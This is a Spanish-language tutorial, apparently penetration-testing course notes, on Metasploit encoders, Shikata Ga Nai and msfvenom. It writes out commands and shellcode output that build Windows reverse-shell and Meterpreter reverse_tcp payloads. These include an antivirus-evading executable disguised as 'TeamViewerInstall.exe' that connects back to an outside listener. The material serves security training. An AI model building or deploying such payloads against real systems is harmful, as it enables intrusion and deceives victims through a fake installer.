



# Encoders

A lo largo de los 15 años de existencia del Metasploit Framework, los **Encoders** han asistido en la compatibilidad de **payloads** con diferentes arquitecturas de procesador, al mismo tiempo que ayudan en la evasión de antivirus. Los encoders son esenciales para modificar el payload para que funcione en diferentes sistemas operativos y arquitecturas. Estas arquitecturas incluyen:

* x64
* x86
* sparc
* ppc
* mips

Además, son necesarios para eliminar opcodes hexadecimales conocidos como **bad characters** del payload. La codificación del payload en diferentes formatos también puede ayudar a la detección por parte de los antivirus, como se mencionó anteriormente. Sin embargo, el uso de encoders exclusivamente para la evasión de antivirus ha disminuido con el tiempo, ya que los fabricantes de IPS/IDS han mejorado la forma en que su software de protección maneja las firmas en malware y virus.

**Shikata Ga Nai (SGN)** es uno de los esquemas de codificación más utilizados en la actualidad porque es tan difícil de detectar que los payloads codificados a través de este mecanismo ya no son universalmente indetectables. Lejos de eso, el nombre (仕方がない) significa "No se puede ayudar" o "No hay nada que se pueda hacer al respecto", y es correcto si lo leíamos hace unos años. Sin embargo, exploraremos otras metodologías para evadir sistemas de protección. Este artículo de FireEye detalla el por qué y el cómo del dominio anterior de Shikata Ga Nai sobre otros encoders.

## Seleccionando un Encoder

Antes de 2015, el Metasploit Framework contaba con diferentes submódulos que se encargaban de payloads y encoders. Estos estaban empaquetados por separado del script msfconsole y se llamaban **msfpayload** y **msfencode**. Estas dos herramientas se encuentran en `/usr/share/framework2/`.

Si queríamos crear nuestro propio payload, podíamos hacerlo a través de msfpayload, pero tendríamos que codificarlo de acuerdo con la arquitectura del sistema operativo objetivo utilizando msfencode después. Un pipe tomaría la salida de un comando y la alimentaría en el siguiente, lo que generaría un payload codificado, listo para ser enviado y ejecutado en la máquina objetivo.

```bash
sherlock28@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .
```

#### Cambios en la Herramienta

Después de 2015, las actualizaciones a estos scripts han combinado sus funcionalidades dentro de la herramienta **msfvenom**, que se encarga de la generación de payloads y codificación. Hablaremos de msfvenom en detalle más adelante. A continuación, un ejemplo de cómo se vería la generación de payloads con el msfvenom actual:

### Generando Payload - Sin Codificación

```bash
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .
```

### Generando Payload - Con Codificación

```bash
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"
```

## Codificación Shikata Ga Nai

**Fuente:** [Hatching.io - Metasploit Payloads](https://hatching.io/blog/metasploit-payloads2/)

Si queremos observar el funcionamiento del codificador **shikata\_ga\_nai**, podemos consultar una publicación excelente aquí.

<figure><figcaption></figcaption></figure>

### Codificadores

Si deseamos seleccionar un codificador para una carga útil existente, podemos usar el comando `show encoders` dentro de **msfconsole** para ver qué codificadores están disponibles para nuestra combinación actual de módulo de explotación + carga útil.

#### Ejemplo de Encoders

```plaintext
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```

**Codificadores Compatibles**

```bash
===================
   #  Nombre              Fecha de Divulgación  Rango    Verificación  Descripción
   -  ----              ----------------------  ----    -----------  -----------
   0  generic/eicar                      manual  No     El Codificador EICAR
   1  generic/none                       manual  No     El Codificador "none"
   2  x64/xor                            manual  No     Codificador XOR
   3  x64/xor_dynamic                    manual  No     Codificador XOR de clave dinámica
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```

En el ejemplo anterior, solo vemos algunos codificadores compatibles con sistemas x64. Al igual que las cargas útiles disponibles, estos se filtran automáticamente de acuerdo con el módulo de explotación para mostrar solo los que son compatibles.

#### Ejemplo Alternativo: MS09-050

Probemos el exploit de Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference (MS09-050).

```plaintext
msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders
```

**Codificadores Compatibles**

```bash
===================
   Nombre                    Fecha de Divulgación  Rango       Descripción
   ----                    ----------------------  ----       -----------
   generic/none                             normal     El Codificador "none"
   x86/alpha_mixed                          low        Codificador Alfanumérico Mezclado Alpha2
   x86/alpha_upper                          low        Codificador Alfanumérico en Mayúsculas Alpha2
   x86/avoid_utf8_tolower                   manual     Evitar UTF8/tolower
   x86/call4_dword_xor                      normal     Codificador XOR Dword Call+4
   x86/context_cpuid                        manual     Codificador de Carga Única Basado en CPUID
   x86/context_stat                         manual     Codificador de Carga Única Basado en stat(2)
   x86/context_time                         manual     Codificador de Carga Única Basado en time(2)
   x86/countdown                            normal     Codificador XOR de Cuenta Regresiva de Un Solo Byte
   x86/fnstenv_mov                          normal     Codificador XOR Dword Fnstenv/mov de Longitud Variable
   x86/jmp_call_additive                    normal     Codificador de Retroceso Adicional Jump/Call XOR
   x86/nonalpha                             low        Codificador No Alfabético
   x86/nonupper                             low        Codificador No en Mayúsculas
   x86/shikata_ga_nai                       excellent  Codificador Polimórfico XOR de Retroalimentación Aditiva
   x86/single_static_bit                    manual     Un Solo Bit Estático
   x86/unicode_mixed                        manual     Codificador Alfanumérico Unicode Mezclado Alpha2
   x86/unicode_upper                        manual     Codificador Alfanumérico en Mayúsculas Unicode Alpha2
```

Toma el ejemplo anterior solo como eso: un ejemplo hipotético. Si codificamos un payload ejecutable solo una vez con SGN, lo más probable es que sea detectado por la mayoría de los antivirus hoy en día. Profundicemos en esto por un momento. Tomando **msfvenom**, el subscript del Framework que se ocupa de la generación de cargas útiles y esquemas de codificación, tenemos la siguiente entrada:

#### Ejemplo de Msfvenom

```plaintext
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

```bash
Encontrados 1 codificadores compatibles
Intentando codificar la carga útil con 1 iteraciones de x86/shikata_ga_nai
x86/shikata_ga_nai tuvo éxito con un tamaño de 368 (iteración=0)
x86/shikata_ga_nai elegido con tamaño final 368
Tamaño de la carga útil: 368 bytes
Tamaño final del archivo exe: 73802 bytes
Guardado como: TeamViewerInstall.exe
```

Esto generará una carga útil con el formato exe, llamada **TeamViewerInstall.exe**, que está destinada a funcionar en procesadores de arquitectura x86 para la plataforma Windows, con una carga útil oculta de Meterpreter reverse\_tcp, codificada una vez con el esquema **Shikata Ga Nai**. Tomemos el resultado y subámoslo a **VirusTotal**.

<figure><figcaption></figcaption></figure>

Una mejor opción sería intentar ejecutarlo a través de múltiples iteraciones del mismo esquema de codificación:

#### Ejemplo de Múltiples Iteraciones

```plaintext
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

```bash
Encontrados 1 codificadores compatibles
Intentando codificar la carga útil con 10 iteraciones de x86/shikata_ga_nai
x86/shikata_ga_nai tuvo éxito con un tamaño de 368 (iteración=0)
x86/shikata_ga_nai tuvo éxito con un tamaño de 395 (iteración=1)
x86/shikata_ga_nai tuvo éxito con un tamaño de 422 (iteración=2)
x86/shikata_ga_nai tuvo éxito con un tamaño de 449 (iteración=3)
x86/shikata_ga_nai tuvo éxito con un tamaño de 476 (iteración=4)
x86/shikata_ga_nai tuvo éxito con un tamaño de 503 (iteración=5)
x86/shikata_ga_nai tuvo éxito con un tamaño de 530 (iteración=6)
x86/shikata_ga_nai tuvo éxito con un tamaño de 557 (iteración=7)
x86/shikata_ga_nai tuvo éxito con un tamaño de 584 (iteración=8)
x86/shikata_ga_nai tuvo éxito con un tamaño de 611 (iteración=9)
x86/shikata_ga_nai elegido con tamaño final 611
Tamaño de la carga útil: 611 bytes
Tamaño final del archivo exe: 73802 bytes
Error: Permiso denegado @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```

Como podemos ver, todavía no es suficiente para evadir los antivirus. Hay un gran número de productos que aún detectan la carga útil. Alternativamente, Metasploit ofrece una herramienta llamada **msf-virustotal** que podemos usar con una clave de API para analizar nuestras cargas útiles. Sin embargo, esto requiere un registro gratuito en **VirusTotal**.

<figure><figcaption></figcaption></figure>

### MSF - VirusTotal

```bash
sherlock28@htb[/htb]$ msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
